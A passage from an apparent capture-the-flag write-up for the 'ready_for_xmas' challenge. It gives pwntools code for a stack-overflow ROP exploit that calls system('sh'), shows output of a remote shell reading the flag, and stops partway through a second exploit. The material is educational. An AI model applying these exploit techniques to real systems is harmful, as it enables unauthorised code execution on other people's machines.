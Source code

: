 ```python

payload  = b''
payload += 0x48 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'sh').__next__())
payload += p64(binary.plt.system)

p.sendlineafter('Christmas?\n', payload)
p.interactive()
```

Pretty basic, after writing out our garbage, follow that up with a `ret; pop_rdi` with the address of the `sh` string in the binary, and then the GOT call to `system`.

> The `pop_rdi+1` is `ret` and is needed to fix a stack alignment issue to prevent `system` from segfaulting.  Google for _movaps segfault ctf_ sometime if you want to know why this is needed.

> There was no need to start payload with `\0` since there's no string `cat` or `sh` in our payload.  This is a static payload that does not change, no PIE, so no worries.

Output:

```bash
# ./exploit_boring.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/ready_for_xmas/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.xmas.htsp.ro on port 2001: Done
[*] Loaded 14 cached gadgets for './chall'
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{l00ks_lik3_y0u_4re_r3ady}
```


## _Fun_ Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall')
binary.symbols['main'] = 0x40078c

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2001)
    libc = ELF('libc.so.6')
else:
    p = process(binary.path)
    libc = binary.libc

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = b'\0'
payload += (0x48 - len(payload)) * b'A'
```
